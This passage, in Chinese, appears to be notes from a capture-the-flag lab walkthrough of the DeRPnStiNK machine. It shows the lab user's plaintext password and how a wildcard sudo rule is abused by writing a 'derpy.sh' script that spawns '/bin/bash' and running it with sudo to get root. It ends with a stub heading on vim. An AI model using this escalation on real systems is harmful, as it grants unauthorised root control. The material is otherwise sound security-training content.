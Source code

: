 ```bash
mrderp@DeRPnStiNK:~$ sudo -l
sudo -l
[sudo] password for mrderp: derpderpderpderpderpderpderp

Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

并没找到 `binaries` 目录

```bash
mrderp@DeRPnStiNK:~$ ls
ls
Desktop  Documents  Downloads
```

那么就直接新建一个这个目录，然后新建一个文件 `derpy` 类似的名称即可，最后给其执行权限，`sudo` 执行即可提权

这里的 `derpy.sh` 里面的内容可以是反弹 shell 的内容，也可以是 `bash -i` 或者 `/bin/bash` 都可以

```bash
mrderp@DeRPnStiNK:~/binaries$ echo '#!/bin/bash' > derpy.sh
mrderp@DeRPnStiNK:~/binaries$ echo '/bin/bash' >> derpy.sh
mrderp@DeRPnStiNK:~/binaries$ chmod +x derpy.sh 
mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy.sh 
[sudo] password for mrderp: 
root@DeRPnStiNK:~/binaries# id
uid=0(root) gid=0(root) groups=0(root)
root@DeRPnStiNK:~/binaries# cat derpy.sh 
#!/bin/bash
/bin/bash
```

### vim

```bash
patrick@development:~$ sudo vim 1
```

<img src=".\图片\Snipaste_2023-07-06_15-26-31.png" alt="Snipaste_2023-07-06_15-26-31" style="zoom:67%;" />
